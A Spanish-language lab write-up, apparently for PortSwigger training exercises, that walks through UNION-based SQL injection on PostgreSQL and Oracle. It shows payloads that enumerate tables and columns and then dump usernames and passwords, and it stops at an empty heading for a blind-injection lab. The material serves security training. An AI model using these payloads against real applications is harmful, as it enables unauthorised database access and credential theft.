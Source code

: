## Lab: SQL injection attack, listing the database contents on non-Oracle databases (postgresql)

metiendole `version()` sacamos que es POSTGRESQL, 

vamos a sacarle el nombre de la base de datos actual:

```sql
union select current_database(),NULL-- -
```

y nos reporta que estamos en `academy_labs` 

asi que le sacamos el nombre de las tablas que tiene 
```sql
union select table_name,NULL from information_schema.tables 
```

y sacamos una interesante en particular `users_agteye`  asi que vamos a investigarla:

```sql
 union SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_agteye'-- -
 ```

y tenemos dos columnas: `username y password`, asi que vamos a sacar su informacion de manera concatenada:

```sql
union select username_xbndko||':'||password_yiwwyg,NULL from users_agteye-- -
```

y ya tenemos el username y password.

## Lab: SQL injection attack, listing the database contents on Oracle

Para ver que columnas elementos son inyectables despues de hacer un order by, tenemos que hacer un `from dual` al final de la query.

Asi que vemos como las dos columnas son vulnerables, asi que vamos a sacar el nombre de las tablas:

```sql
union select table_name,NULL from all_tables
```

y tenemos la tabla `USERS_YVJYCB` , asi que vamos a ver que tiene dentro:

```sql
 union SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_YVJYCB'-- -
 ```

y asi sacamos `PASSWORD_FCFOYJ` y `USERNAME_LMKULY` , y finalmente sacamos las credenciales concatenadamete: 

```sql
union select PASSWORD_FCFOYJ||USERNAME_LMKULY,NULL from USERS_YVJYCB-- -
```

## Blind SQL injection with conditional responses
